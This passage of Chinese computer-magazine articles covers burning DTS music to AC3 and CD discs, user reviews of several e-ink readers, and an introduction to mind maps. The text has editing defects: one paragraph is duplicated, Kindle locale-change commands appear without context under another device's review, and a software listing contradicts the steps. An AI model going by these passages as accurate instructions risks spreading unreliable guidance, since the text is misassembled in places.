由于我们已选择了单独保存每一声道，每一首歌曲都会生成6个文件。别担心混乱，它们的命名有规则的，都形如“标题X - 章节 X(chX).wav”。比如《情非首尔》，保存下来的文件为“标题1 - 章节 9(ch1).wav”、“标题1 - 章节 9(ch2).wav”……“标题1 - 章节 9(ch6).wav”，这6个文件分别对应DTS音乐的6个声道。

**需要的软件：** 刻录软件Nero（版本号为10），格式转换千千静听，AC3光盘制作MediaCoder。

1.  第1步：运行MediaCoder，单击“ADD”，将要转换的DTS音乐导入进来。接着，在下一步选择“音频”标签，将“格式”的设置为AC3；再选择“声音”标签，将“声道”设置为“5.1 Channels”。然后，单击“START”按钮，转换即可开始。默认地，生成的AC3文件与原DTS文件在同一文件夹，而且码率为128Kbps，按这一设置，700多MB的DTS文件转换为AC3后只有60多MB。
2.  第2步：要将DTS音乐转换为MP3格式，方法与上类似，只要在“音频”下选择MP3，在“声道”下选择“Stereo（立体声）”就行了。默认地，MP3的码率也为128Kbps，这样，转换出来的MP3文件与AC3文件大小相当。有了MP3格式文件，将其拷贝到车载式MP3播放器里，一样可在汽车里欣赏。

### 刻录AC3光盘

前一步，我们已转换出了AC3音乐，要用汽车播放，还得刻录到光盘。使用的软件是Audio DVD Creator，默认为英文版，在网上能搜索到它的简体中文补丁，将补丁拷贝到软件安装目录的Language文件夹下即可设置为简体中文界面。

1.  第1步：运行Audio DVD Creator，选择“新建方案”，接着，在“视频格式”下选择“AC3（高容量）”，5.1ch，选择“电视制式”为中国适用的“PAL”。
2.  第2步：单击“添加音乐文件”，将原来已准备好的AC3歌曲导入进来。为保证效果，还可在下一步中进行试听。
3.  第3步：刻录。在此，可直接刻录到DVD光盘，但推荐大家选择“把DVD文件创建到硬盘”，此时，程序会要求我们保存当前方案，再在硬盘上生成标准的DVD文件（即包含AUDIO_TS和VIDEO_TS文件夹）。接下来，用完美解码试播，如果满意，再用Audio DVD Creator打开已保存的方案并直接刻录DVD光盘。

### 刻录CD光盘

有的汽车只能支持普通CD光盘，好办，刻录即可。但要注意的是，为保证效果，请以DTS为源文件进行刻录。

1.  第1步：运行千千静听，将要刻录到光盘的DTS音乐导入到它的播放列表里。接着，在播放列表中选择全部曲目，右击，选择“格式转换”并在弹出的对话框里选择输出格式为“Wave”，一切设置好后单击“立即转换”就行了。
2.  第2步：运行Nero Burning ROM 10，选择“音乐光盘”后单击“新建”，将刚才转换好的音乐文件导入进来。请注意观察总时长，一张CD光盘的播放时长，一张CD光盘（700MB）的总时长一般不超过80分钟。无论源文件是什么格式，包括动辄上100MB左右的WAV文件，还是仅有5MB左右的MP3，只要它们的时长相同刻录到CD后占用的空间都是一样的。为此，选择源音乐时，尽量选择高品质的DTS、WAV等，MP3等都是些高品质音乐经过有损压缩而成，刻录为CD后除浪费CD空间外没有任何好处。另外，CD光盘中的音乐都只有两个声道，当我们将5.1声道的音乐刻录进去时，6个声道的信息不会丢失，而是混合到两个声道中，当然也就没有5.1声道特有的环绕立体定位效果了。

**小提示：** 刻录CD光盘，看似简单，但如果不讲究却会大大影响回放效果。本来，音乐CD的音质比我们谈过的APE还要好，更别谈AC3、MP3了，美中不足在于只有两个声道。在音乐CD里，它记录了每首歌曲的播放时长，一张CD光盘（700MB）的总时长一般不超过80分钟。无论源文件是什么格式，包括动辄上100MB左右的WAV文件，还是仅有5MB左右的MP3，只要它们的时长相同刻录到CD后占用的空间都是一样的。为此，选择源音乐时，尽量选择高品质的DTS、WAV等，MP3等都是些高品质音乐经过有损压缩而成，刻录为CD后除浪费CD空间外没有任何好处。另外，CD光盘中的音乐都只有两个声道，当我们将5.1声道的音乐刻录进去时，6个声道的信息不会丢失，而是混合到两个声道中，当然也就没有5.1声道特有的环绕立体定位效果了。

## 附：本文用到的软件列表

| 软件 | 描述 |
| :--- | :--- |
| GoldWave | 是一个集声音编辑、播放、录制和转换于一体的音频工具，体积小巧，功能强大。本文中主要用它来显示音乐文件的波形图。 |
| 千千静听 | 小巧、占资源少的音乐播放软件。本文，主要用它来播放DTS音乐文件，转换音乐格式。是播放DTS音乐的首选。 |
| 完美解码 | 功能强大的影音解码、播放软件，有了它，一个系统自带的Windows Media Player即可播放几乎所有格式的视频和音频文件。本文，主要用它来播放DTS光盘（包括虚拟的），另外，它还为本文用到的其他媒体工具提供解码支持，比如：安装完美解码前，千千静听无法播放DTS光盘中的音乐文件，安装后就行了。 |
| DAEMON Tools | 虚拟光驱软件。本文，用它来加载DTS的光盘映像以方便播放。 |
| QQ影音 | 新兴的影音播放软件。如果DTS音乐以DTS或WAV为扩展名而存在于硬盘上，除千千静听外，它是播放的二号工具。 |
| Ariplay | 全新的音频播放工具，支持DTS，与千千静听或QQ影音相比还有一定的差距。 |
| Nero | 大名鼎鼎的刻录软件。本文，主要用于制作、刻录DTS光盘映像，制作CD光盘。 |
| Exact Audio Copy | 最负盛名的音乐光盘抓轨软件，它的最大亮点在于可抓取为不失真的WAV文件。 |
| Alcohol 120% | 著名的虚拟光驱工具。本文，主要用它来制作MDF、MDS格式的DTS光盘映像。 |
| DVD Audio Extractor | 是一个抓取DVD音轨的软件，它可以把DVD碟片中的音轨转化成OGG、MP3或WAV文件。 |

策划/《电脑爱好者》编辑部 监制/书童 撰稿/李学昌

# 电子书还是纸质书

由于iPad等平板电脑的打压，最近电子书市场有点力不从心。近日盛大锦书Bambook以499元超值发售，Kindle更推出硬件不缩水的廉价广告版，电子书仿佛要用价格优势打一场硬仗。但决定电子书存亡的根本因素还是其使用效果，那么主流电子书使用效果如何呢？请看本篇。

在使用iPhone看书前，我还是当当的忠实用户，每年在当当上购书要消费2000以上。在我看来，短篇的文章看电子版没问题，但是书还是要看纸质的，因为在我看来只有拿着纸质的书才能静下来认真地读，深入地思考。另外，也可以摆满我的书架和书桌，看上去很有文化的样子，哈哈。自从在iPhone上装了Stanza后，我就迷恋上了用手机看书，Stanza的网上书库里有大量的好书，在此后一年多年的时间里，我在iPhone上看了很多书，这绝对超越我工作这几年的阅读量。工作后你会发现，很难找出大段的闲暇时间一个人静静地看书，即使在家，你也会不断被各种事情分开，所以虽然总是下决心要多看书，但还是一次次向现实“妥协”，我不得不承认自己并不是个意志力很坚定的人，而在iPhone上看书后，你会发现这么大的屏幕看书体验也还不错，至少可以接受，更重要的是你的闲暇时间都被利用起来了，外出的地铁或公交车上，在医院或者餐厅等人的时候，上厕所或者临睡前，即使在家里，你也会发现这种便捷性非常重要。有了iPhone，我很少从书架上拿书，都是拿起手机来就看。

## iPad 还是电子书

其实，在我决定购买kindle之前，我一直是平板的忠实粉丝，坚持认为没有单独购入电子书的必要。既然平板上同样能看书，并且还能做那么多的事情，我干嘛再去买一个电子书呢。直到我亲身体验了iPad后，我终于明白了，其实我就是需要一个看书的东西。有段时间，我一个朋友把他的iPad放在我这里，刚开始很是新鲜，但是很快，就感觉很无聊。因为，首先，我不会在工作中用。另外，在家中上网、看电影、聊天我也多半用笔记本，外出我更不会带这么大一个玩意。对我这个不热衷游戏，也不是微博控的人来说，平板似乎对我意义不大，拿着平板我甚至都有些无所适从。

此后，在网上看一帖子争论到底是iPad还是电子书，一网友这么说：“买个iPad来看书，看似可选择余地更大，但是诱惑也更大，就像走进妓院去清修一样。”其实，抛开电子墨水更适合阅读、更保护视力的优点不谈，电子书单一的功能反而是件好事，因为你确实啥都做不了，除了看书。否则，拿个iPad，你会告诉自己先玩会儿游戏消遣下，再看会儿电影，再上上微博，看书就根本没有时间了。当然，说这些都是针对那些以读书为主要目的，又贪图更多功能，从而徘徊在平板和电子书之间的人。如果你明确自己的需求就是游戏和便携性，而看书只是偶尔的事情，那平板自然是最佳选择了。

最后，确定下来购买电子书还是亲身体会了电子书的魅力后的决定。一次外地培训，和我同屋的一哥们带了个汉王的电子书，我亲自用了一会儿。电子墨水的那种舒服真是手机或者平板无法比的，你总觉得自己是在拿着一本书来看，而不是电子设备。所以，我一直认为电子书是介于纸质书和手机书或者平板书或者电脑上看书之间的一种介质，它兼具了纸质书的那种体验和电子方式的便捷。还有一点就是电子书设计的大小最适合阅读，一个手拿上刚刚好，而不像手机那么小，或者像平板那么大，给你的感觉就像是在看一本纸质书，尤其是躺在床上看，感觉真是非常惬意。

## 关于电子纸

一般认为，电子书特指使用E-Ink（电子墨水）显示技术，提供类似纸张阅读感受的电子阅读产品。它是一种采用电子纸为显示屏幕的新式数字阅读器，可以阅读网上绝大部分格式的电子书，比如PDF、CHM、TXT等。与传统的手机、MID、UMPC（Ultra-mobile Personal Computer 超级移动个人计算机）等设备相比，采用电子纸技术的电子书优点多多。

## 电子纸凭什么吸引人的眼球？

- 节能环保：一次充电，开机状态可连续待机15天以上，无需天天充电。独特的智能电源管理技术，一次充电可连续翻页7000次以上。
- 保护视力：可长时间阅读，无闪烁，字号缩放自如，不伤眼睛。卷卷好书，尽情阅读。
- 强光可看：基于电子墨水技术的电子纸显示屏，可在阳光照射下不反光，使您充分体验户外阅读的乐趣。
- 无辐射：使用安全，避免一般电子类产品辐射对身体的侵害，是您健康的阅读伴侣。
- 全视角阅读：高清晰度，接近纸张的显示效果，阅读视角可接近180°。
- 轻巧便携：整机重量仅百八十克，玲珑机身，轻巧便携，可随时放置在上衣口袋中，随时随地方便阅读。
- 容量空前：1GB存储卡可存储5亿字，相当于近千套三国演义。目前市场产品多为4GB，容量更大。

在电子纸的研制领域，成立于1997年的美国E-Ink公司的地位显得首屈一指，这家隶属于麻省理工学院的公司的电子超薄显示器技术代表着目前业内的最高水准。E-Ink公司所研发的电子纸张，表面看起来与普通纸张十分相似，可以像报纸一样被折叠卷起，但实际上却有天壤之别。

电子纸技术与现有的液晶技术不一样。电子纸显示器没有目前显示设备无法避免的强烈反光，画面分辨率高，显示效果与视觉感观与一般书写纸几乎完全相同。特别是电子纸技术具有画面记忆特性，一旦画面显示后即不再耗电，这对于便携式电子阅读器来说也是非常重要的优势。在材料工艺上，电子纸甚至可以做成与纸一般可折叠弯曲。

## 小知识：E·Ink显示技术

E·Ink公司所研发的电子纸张，是由两片基板所组成，上面涂有一种由无数微小透明颗粒组成的电子墨水，颗粒由带正、负电的许多黑色与白色粒子密封于内部液态微胶囊内形成，不同颜色的带电粒子会因施加电场的不同、而朝不同的方向运动，在显示屏表面呈现出黑或白的效果。同时只有画面颜色变化时（例如从黑转到白）才耗电，关电源后显示屏上画面仍可保留，因此非常省电。功耗是同尺寸大小TFT液晶的千分之一。

## 电子书或将引发出版业变革

生活节奏的加快，使阅读的功利化、工具化成为必然趋势。“浅阅读”渐多，“青灯黄卷”的渐少。现代都市人的时间都呈破碎化分布，不读书现象已经逐渐蔓延，我们迫切需要能承载破碎化阅读的新型设备。电子书当之无愧，这是由电子书的最接近纸张阅读体验品质所决定的。电子书将是继纸质、影视、互联网、手机四大出版发行之后第五种出版发行新渠道，电子书将是继甲骨文、竹简、帛、纸等之后的又一新兴文化、知识传承载体，未来的作品发行，将可以同时选择影视、纸质、互联网、手机、电子书五大发行渠道来实现。

## 电子书购买注意事项

1. 屏幕大小：一般而言是越大越舒服，当然也越贵。目前主流的大小是6英寸，7寸或更大屏幕的电子书也已投放市场。
2. 支持格式：支持的格式越多越好，重点是pdf、chm、doc，还有各种图像以及zip、rar等压缩格式。这方面国产电子书明显占优，国外的产品由于版权等原因支持格式较少。
3. 翻页黑屏：有的电子书在翻页的时候，整个屏幕首先黑屏，然后再重新以“白底黑字”的方式显示。但也有翻页不黑的产品，购买时应注意这个细节。
4. 阅读方便：提供PDF电子书自动切白边、书签、放大、旋转、查询等便于阅读的多种实用功能。

## 电子书也有不足之处

1. 不能看电影。采用E-Ink屏幕的设备不能播放动态视频，不管是电影还是Flash。温馨提示：如果要选择能看高清电影的电子书阅读器，那就考虑非E-Ink屏的彩色电子书阅读器吧（例如可以看电子书的MP4）。
2. 市面上通行的电子书目前都是黑白的，不支持彩色。
3. 普遍对扫描PDF格式支持不是很理想。
4. 普遍或多或少存在显示残影，消除残影需要有等待时间。
5. 价格相对于其他电子书阅读产品来说还是贵了不少。

## 标杆级产品 Kindle

体验者：般若

### kindle还是其他

确定了购买电子书的需求后，剩下的就是选哪一款了？汉王首先是排除的序列，性价比太差，一个电子书敢卖好几千。剩下就是在亚马逊的kindle，盛大的锦书，爱国者电子书之间选择了，于是上网看各种评测文章，不过不仅没有任何帮助，还越看越晕，什么皮套的色泽了，什么刷新速度了，什么灰阶了，对我这种一般消费者来说，统统都是浮云。后来在一个购买了kindle朋友的推荐下，毅然购入kindle（kindle目前并没有正式进入中国，所以能买到的都是水货）。其实除了朋友推荐，还有一个原因，就是亚马逊作为电子书的鼻祖，全球出货量第一，其品质必然有所保证，这点我是绝对信赖的，并且网上对kindle的评价也确实很高。此外，从各种新闻报道来看，亚马逊的kindle都是赔本在卖，利润则来自于网上书城，因此，我坚信就其硬件来说，应该是性价比最高的。

买回来后就我个人的体验来说，很好，没有硬伤。字体颜色非常饱和，很有质感，读起来就像读线装古书，那电子墨水似乎就是真的墨水，翻页时候的延迟完全可以接受，更重要是没有残影（这个是后来对比其它电子书才感觉到的，有些电子书翻页时候上一页的残影要一会才能消除，这会非常影响阅读体验）。对于一个电子书来说，我想这样就足够了，质量不错，体验也不错，性价比也不错，至少对于这次购物，我并不后悔。

当然，Kindle缺点也是显而易见的，虽然能完美支持中文显示，但是原生系统不支持更换字体，不支持中文输入，不过对于我来说，这似乎也没什么，原装字体就很好了，没必要再折腾，没有中文输入也没啥关系，因为在电子书上打字好像基本没有这种需求。

### 3G还是标准

由于kindle 3分为wifi标准版和3G+wifi版（新近推出的广告版，并不熟悉），所以到底要不要3G让很多消费者很难下决定。kindle 3G的好处就在于机器中出厂就预装有3G卡，并且3G上网的流量费全部由亚马逊来承担。当然由于使用的是美国的3G卡，所以在国内都是漫游上网，网速不会很快（不用为亚马逊担心，相比于网上书城书籍销售的收入来说，流量费实在不值一提）。那3G对于电子书来说到底有没有用呢？在美国，人们需要通过3G随时随地接入亚马逊的网上书城，方便随时购书，但是对于中国人来说，首先亚马逊书城的中文书籍很少，另外，书城上书籍价格相对较高，很少有人会使用这个功能。那么3G就一点用了吗？就我个人的经验来说，可以随时随地上网看资讯，kindle内置的浏览器功能很弱，所以如果你想上网冲浪趁早死了这个心，它不支持flash，不支持视频、音频，图片、文字全是黑白的，并且用上下键来在门户网站上选择，体验及其糟糕。更糟糕的是，中国的网站基本都无法使用，因为中国的网站都默认在另一个新页面打开链接，而kindle根本不支持，它只能在本页面打开此链接。由于国外网站基本都是这样，所以上国外网站没问题，但是中文网站就根本什么都打不开。不过，要看资讯，有一个方法，就是通过导航网站m.mydoo.cn上网，它会用wap的方式来打开其它网站，m.mydoo.cn收录了不少网站，足以应付日常浏览资讯的需要。其实，如果没有这方面需求的话，3G可以说基本没啥用处。

### 注意事项

1. kindle很薄，屏幕比较脆弱，因此最好买个保护套保护起来，否则不小心压着，很容易把屏幕压碎。
2. 如果购入的是kindle 3的话，不要买那种嵌入式皮套，这种皮套有铁质挂扣深入到kindle机身内，从而挂紧，但是由于设计缺陷，很容易造成kindle不断死机。这是我亲身验证过的，以前kindle经常死机，不知是何原因，论坛上也有人反映这种情况，后来根据论坛上高人的指示去掉嵌入式皮套，kindle再也没有死机过了。

## 国产电纸书龙头 汉王

体验者：终极小Q、焦点时刻、燃料电池IN

我本人比较支持国货，很早以前就试用过几个品牌的电子书，由于坐地铁的时间真的不短和对阅读的兴趣让我决定买一本自己中意的电子书。虽然亚马逊Kindle被一些人大力推荐，但经过本人试用，英文的菜单、英文的界面总感觉不是很友好。于是我选择了国内最大品牌的汉王，时逢汉王推出了D31状元版，一咬牙拿下了。

对比早期汉王推出的几款商务产品来说，这款汉王D31电子书外观显得更加时尚前卫。采用乳白色系，乍看看上去四四方方，而边缘则采用了圆弧过渡，外加银色镶边，整体视觉上符合学生市场定位。外壳是磨砂质地，提高了抗划伤的能力，采用QWERTY全键盘设计，包括数字字符、字母键盘，功能键等，方便文字录入，但就本人试用来看按键偏硬。遗憾的是右下角的方向键和OK键虽然比其他按键更为凸出但还是过于偏小，毕竟这几个按键使用机率较高。需要注意的是电子书本身重量有点偏大，单手持握10分钟会有疲劳感，相对于Kindle的左右两边都有翻页键，汉王仅在左边边框设计了PAGE UP/PAGE DOWN翻页键，这点稍有不便，而且翻页的速度相对于Kindle明显要慢一些。

### 特殊功能 体贴入微

汉王最让我关注的是手写。在阅读杂志的时候可以随时在字里行间写划批注，这个功能很实用，就凭这点Kindle就输了，关闭之后还可以将自己的批注直接存储在原始位置，这才真有取代纸质书的味道。手写文字的输入比较强大，连笔书写识别率很高，但反应稍有点慢，不过可以接受，写时要用点劲，可能是因为电磁板上又有E-Ink屏的关系吧。比较担心的是，如果长期使用笔在屏幕上划来划去，会不会损坏屏幕？

附带功能中即时翻译对于阅读外文杂志和专业读物很有助益，点选“译”按钮后直接用触控笔在屏幕中划取要翻译的词语就能直译出来，很方便，但翻译的多样化明显不够专业，很多单词、词组的多重意义没有显示完全，这点期待汉王固件更新把它解决吧。

值得一提的是语音阅读功能比起以前那种呆板的电子音有了长足的进步，基板上字正腔圆，字与字之间没有明显的卡顿感，这文章听起来很舒服（相对而言），但字与字之间的绝对统一速度让再精彩的文章也有滞怠感，这当然不是汉王的错，我们除了期待科技的飞速发展还是劝使用者能尽量用自己的眼睛看。

当然有些功能笔者认为可有可无，例如音乐播放，我们买电子书的初衷只是阅读，谁也不会抱着这么大的家伙来听音乐，况且汉王电子书的外放能力实在有限，与其要这个鸡肋，不如便宜个200块钱来的实惠。

在使用过程中发现汉王存在偶然死机的问题，容易出现的地方随机，至于原因尚不清楚，好在书的背面设有“Reset”键，轻轻一按就可重置（难不成汉王自己也知道死机的现象无法回避）。

## 盛大 Bambook

体验者：海潮

日前盛大锦书Bambook以499元低价杀开一片血路，引来无数围观。如此低廉的价格就能买到电子墨水吗？冲动一回吧，盛大官网下单，30号发货1号就送到了，速度还挺快。用了一天，感觉一般般，具体说说吧。我买的是569元的套装，皮套质量不敢恭维，皮套里似乎有吸铁石，可以呈弯曲状，但是套上后就总翘翘着，建议淘宝购买。外观中规中矩，整体重量有点沉，单手拿时间长了会累。按键很硬，感觉不爽。WiFi信号不是太好，后来干脆放弃，反正这个就可以上云中书城。但只能上他们家的书城，太狭隘了，如果能上外网就更好了。值得表扬的是云梯软件还不错，传输书籍速度挺快的。

本来手里有iPad，但是这个看书实在是累眼睛，尤其是晚上，恨不得把亮度调到最暗。太晃眼睛了。所以决定买个电子书。但看到Bambook的实际效果后，发现完全不是那么回事。开着台灯看了一个小时，就觉得眼睛有酸痛的感觉了（跟iPad差不多嘛），而且Bambook虽然没有反光，但是屏幕实在是小。这就造成了把字体弄小了看不清，字体大了一页没有几个字。

屏幕显示效果也一般。即使是质量优先模式，看起来字体也虚的很，这一点明显不如Kindle和汉王。反正最后看了一天，越看越觉得字体令人纠结。然后用数据线传了雅黑和华文中宋，但是看起来也没比默认的好多少，但回头想想这个价格也就能接受了。

Bambook称使用806MHz的Marvell PXA310芯片，内存数据没查到，但菜单操作和阅读速度很慢，系统内菜单翻页速度慢还可以忍受，但是看书翻页，就令人有些不耐烦。翻页延迟的严重已经影响了我的看书心情，按一下翻页键，还得延迟下才能翻页。看到后来，注意力越来越集中在延迟上，根本无法专心看书，甚至越看越想把iPad拿出来算了。

在使用的总体感觉来说，感觉Bambook比kindle操作烦琐，但实现的功能却更少。举例来说，删掉一本书，Bambook得两只手右-左-右-右地按，在Kindle只需要右手三步操作即可。Bambook只有左手翻页，如果背上书套，好像非得两手捧书才行了，左手还很忙乱；相比之下背上书套的kindle也只需右手操作完成。而Bambook支持的电子书格式很多，但是必须通过软件转换成锦书的.snb，通用性很受限制。像这种与成本无关的缺陷希望早日修正。

### 提示：

1. 如果无法支持PDF原生导入，请升级Bambook固件
2. 如果无法保存自定义书架分类，请升级Bambook固件
3. 往锦书中添加自有书，只需将文件拖到云梯的锦书书架界面即可，不必运行电子书制作工具
4. 建议添加epub格式自有书籍，可以在锦书获得良好的阅读体验

## 爱国者 EB800 百看电子书

体验者：Mac

提到百看， 很多人可能只知道这是爱国者跟百度合作的电子书，官方在打宣传的时候也花很多篇幅在百度文库支持的宣传上面。最近百度文库遭到清剿，有些人觉得这款电子书完蛋了，他的对手也沾沾自喜。其实这很有意思，我们国内电子书除了盛大，其他电子书要么没有内容支持，要么就是小小的书库，就是盛大做的比较好，也有内容支持面狭窄的问题。在正版电子书籍没发展起来的时候，一切都是浮云……

开机速度非常快。打开电子书，发现里面只有一个PDF文档的说明文件。阅读后发现文件对于整个操作说明的很详细（建议拿到机器都仔细看看）。爱国者百看的主页面设计显然也是受了Kindle影响，进入主页面，显示的直接是一堆书。跟国内其他电子书产品喜欢用的九宫格或者分类型的菜单不一样。他的书箱分类与排序设定在屏幕右上方，而整个系统菜单则要按Menu呼叫出来，系统设置则从系统菜单进入（也可以用快捷组合键）。系统设置里面可以设置刷新方式（几页一次全刷），字号默认大小等许多常用的功能。

```
:debugOn
~changeLocale zh-CN
:debugOff
```

输入时要注意大小写，具体输入步骤是：在home页面，先按下回车（也就是方向键旁边那个弯弯箭头键），会出现一个输入框，输入第一条命令后，回车；再输入第二条，再回车，再第3条回车。这样就设置成功了，然后重启kindle 3。
重启步骤：home -> Menu -> Settings -> Menu -> Restart

## 纵览电子书 各有千秋

这几款电子书总体来看阅读体验最好的是Kindle，柔和的显示，快捷的翻页，轻薄的机身……如果热爱阅读，除了书本之外，最好的阅读器可能就是亚马逊kindle 3了，再加上千元出头的价格的，性价比十足。

国产名牌汉王其良好的人机交互界面令人印象深刻，尤其是可以直接在电子书上做批注，更显得其人性化，对应学生版本的产品还带有即时翻译功能非常实用，但是在翻页速度上比Kindle慢了许多。

盛大Bambook由于字体清晰度、反应速度慢、支持格式单一等原因名列最后。但权衡其499元的价格还是具有非常高的性价比。想要浅尝辄止的用户选择盛大Bambook很合适，毕竟电子墨水技术没有比它更廉价的产品与之比肩。

而爱国者整体看来比较平均，虽没有太过人一等的表现，也没有什么明显缺点，属于中庸之作，要想搏得市场看来降价势在必行，用户可以观望一下。

总的来看阅读体验最好的莫过Kindle，但论功能实用性最强当属汉王，与之类似的爱国者紧随其后，盛大Bambook性价比最高。具体如何选择，还得用户自己拿主意。

## 彩屏 电子书的未来

对于目前电子书的状况有些举步维艰，创新才是根本的解决之道。还记得手机从黑白到彩屏的巨大变革吗？电子书也有了彩色的。

彩色电子书采用E-Ink最新发布的Triton屏，彩屏电子书更大程度上还原纸质阅读的真实感受，同时继承了电子墨水技术作为阅读器屏幕的全部优势。与传统彩屏阅读器相比，彩色电子书更为省电，并且无闪烁不伤眼，也可以在阳光下阅读，更适宜电子杂志等互动阅读。

在国内，率先采用E-Ink Triton技术制作彩色电子书产品的将是中国的汉王科技。汉王目前为中国市场最大的电子书产品业者，市场占有率近8成。根据纽约时报报道，汉王预计将于明年3月发布采用Triton的9.68寸彩色触控屏电子书，售价约为440美元（现折合人民币约为2923元），定位为商业用产品。

在国外，亚马逊的KINDLE也曾采用过E-Ink技术，不过由于E-Ink的黑白屏转为彩色屏的技术难度，Kindle短期将不会有彩色版，亚马逊也没有对此进行过表态。

此次彩色电子纸技术推出后可能将会对电子书行业产生深远的影响，甚至改变电子书行业的现有局面，彩色与显示速度的提升弥补了之前E-Ink技术的2大主要缺陷，而目前的价格设定也并非太高，在彩色电子书推出并被大众所接受之后，电子书市场将会有大规模拓展也犹未可知。

策划/《电脑爱好者》编辑部
监制/周璟
撰稿/周璟 齐书阳

## 思维导图

## 创造思维奇迹

在这个信息大爆炸的年代，需要学习的知识越来越多，需要记忆的内容越来越多。但是我们的大脑似乎已经不堪重负。虽然一个人的脑储存信息的容量，号称相当于1万个藏书为1000万册的图书馆，但是真正能背下哪怕100本书的人，都鲜有其人。这是为什么呢？因为我们真正能用到的大脑部分，其实非常之少，穷其一生还用不到10%，而就是这不到10%的脑力，我们也没有充分利用好。我们学到的各种知识，杂七杂八的堆放在头脑中，如同乱糟糟的仓库，需要的时候却一下子找不到需要的信息。而“思维导图”，则是一个非常不错的思维工具。它使我们能够分清主次，更快更清晰地看出一些主要思想如何彼此关联，从而使得这些杂乱的知识变得有序而高效，让我们的脑力倍增。学会使用思维导图，能够帮助我们：

- ★更好地记忆各种内容
- ★迅速拓展自己的思路
- ★计划地安排各种事项
- ★系统全面的知识整理
- ★高效快速的知识检索
- ★与人沟通的绝佳桥梁

### 达·芬奇的密码

被誉为英国的“记忆力之父”的托尼·博赞，他从小的时候就非常喜欢学习和记笔记，但是随着年龄的增长，学习内容的增多，博赞发现一个奇怪的现象：他记的笔记越多，他的学习和记忆力反而变得越差。
博赞一直为此事而苦恼，直到上大学后，他在研究许多伟大的思想家，尤其是达芬奇的各种资料后，有一个惊奇的发现，他发现达·芬奇的笔记更像是一个“涂鸦”，常常使用各种图形、代码和连线来表达一个记录或一个思想。
这些发现，令博赞豁然开朗，他画出了生平第一幅思维导图。这是一个放射形的图形，中心是要表达的主要概念，由此向四周发射延伸，是与中心相关联的其他概念，其他概念又可以作为一个子中心再行扩展，最后的效果，如同一个枝繁叶茂的大树。



### 思维导图与放射性思维

思维导图是对人脑放射性思维的一个模拟。放射性思维又称发散思维，它是从一个思维出发点，经由联想，不断向周边扩散的思维过程。
比如看到“水果”一词，这时闭上眼睛想像，你想到了什么？苹果、香蕉、菠萝、梨、桃子、葡萄……所有你平时爱吃的水果形象一下子涌上心头。苹果又让你想到了什么？红色、甜蜜、MM的脸蛋……所有相关的意念也都涌上心头。这样不断延伸的结果，你头脑中，通过“水果”一词，可能得到的就是下面的一个印象。
其实，如果将人的脑细胞在显微镜下放大，会发现每个脑细胞就是一个“思维导图”，它们的“生理结构”是如此的相似。每个脑细胞就像一个超级章鱼，中间有个身体（细胞体），带着十根、百根，甚至上千根的触须，这些触须即所谓的树突，形状如树的分支，它们的作用类似于电视的接收天线，负责接受刺激，将神经冲动传向胞体。每个脑细胞还有一根轴突，如同大树的树干，它负责将接受到的信息传递给其他与之联系的各种细胞。


### 传统笔记的困境

想一想，你是怎么记笔记的。是不是习惯用简单的话语将一段内容或一本书概述出来；或者是列出一份表单逐条概括出要点及记下一些想法；更完美一些的做法，是一二三四五先列出主要点，然后各大项之下12345列出次要点，这样通过层次顺序来记笔记。以前，我就是一直这么记笔记的，其实全球95%的人打草稿记笔记也都是用的三种方法。
不过我们会发现一个问题，这种笔记记得越多，能记得住的东西反而越来越少。当我们再翻到N年前所记的笔记时，往往会感到一片陌生与茫然，不知所云。为什么？因为这种传统的笔记方法，只用到了文字、词汇、数字等一些符号，并且是直线性的顺序写下来的。缺少色彩，缺少图像，缺少重点，缺少统一感，缺少空间感，使得内容乏味之至，很难记忆。
思维导图正好弥补了这些缺点，它能使我们将焦点清晰地集中在中央图形上，并通过联想将其他关键词与之相联，再加上色彩、图形等多维度的修饰，使其更有趣味更加独特，从而增大创作性和记忆力，有利于信息的调度。


### 画出你的第一张思维导图

绘制思维导图的工具其实很简单，一张白纸和一支笔即可，当然，为了达到更好的效果，可以多准备几个彩色笔。如图4所示，是本例完成的思维导图的最终效果，它是经过怎样的步骤完成的呢？
第一步：确定中心。在白纸的中心位置写出中心关键词并圈起来，或者以图形的方式来表示。本例的主题是探讨与思维导图相关的“发散思维”的，就以此为关键字了，并以大树的年轮作为它的象征。
第二步：通过联想，并根据分类原则，在中心关键词的周边写下相关的子项。关于发散思维，它的特点，有突发、联想、想象、跳跃、形象等特点，写下这些关键词，或以相关图形代替。有条件的情况下，这几个关键词最好使用不同的颜色。

第三步：接下来用线条将它们与中心图像连接起来，这就是本思维导图的主要分支了。注意，分支的连线最好用自然的曲线，优美的曲线会比直线更能愉悦大脑。

第四步：根据层次原则，在每个分支点的周边再写下该分支点的子项，并将这些子项与相应分支点连接，从而构成二级分支。

第五步：以此类推，继续三级、甚至四级五级分支的绘制，最终达到上图所示的效果。

以上步骤，各人因习惯的不同会有所调整，比如有人习惯先画出分支线，然后再沿线写下关键词，这些不会有太大影响。通过上面的介绍，可以看出，绘制思维导图有以下几个要点：

1.  尽可能地使用关键词，而不是用句子，句子容易束缚想象。
2.  尽可能地使用图形来替代关键词，图像不仅能刺激创意思维，也能帮助想象和记忆。
3.  尽可能使用多种色彩来绘制，因为色彩和图像一样，能让大脑兴奋。
4.  充分发挥联想功能，不要有任何约束，甚至可以努力联想荒诞、不合理的事物。
5.  使用分类和层次原则，让思维导图井然有序，最好使用数字顺序。

#### 小练习：通过思维导图深入人心

如果你和恋人发生了严重的分歧，不妨通过思维导图深入各自的内心，再比较一下分歧所在。两个人同时来做本练习：在纸张中心，写下关键词“幸福”，然后按上面的步骤进行扩散思维找出幸福更具象的概念，比如，你可能认为幸福是游泳、足球、笑话、阳光等等，而对方有可能认为是玫瑰、巧克力、烛光晚餐等等。了解了彼此对幸福的理解，就可以缩短距离，向两个人共同的幸福更进一步。

#### 用软件绘制思维导图

如今，计算机已经成为我们生活、工作必备的工具，制作思维导图的软件也大量涌现，虽然通过软件制作的思维导图尚且不能与手工绘制的思维导图相匹敌，但是它也有着自己的独有优势。





计算机思维导图不需要画笔和纸张，许多元素可以自动生成，大大提高了效率。另外，计算机制作的思维导图还可以方便地进行编辑、存储、检索以及打印输出。

现在比较流行的思维导图软件，有XMind、MindManager、FreeMind、iMindMap、inspiration、PersonalBrain等。其中，XMind是基于FreeMind开发出来的，更好地支持中文，界面也更美观，并且除了可以绘制思维导图外，还能绘制鱼骨图、二维图、树形图、逻辑图、组织结构图，功能丰富，关键是它还提供有免费版，深得许多人的青睐。

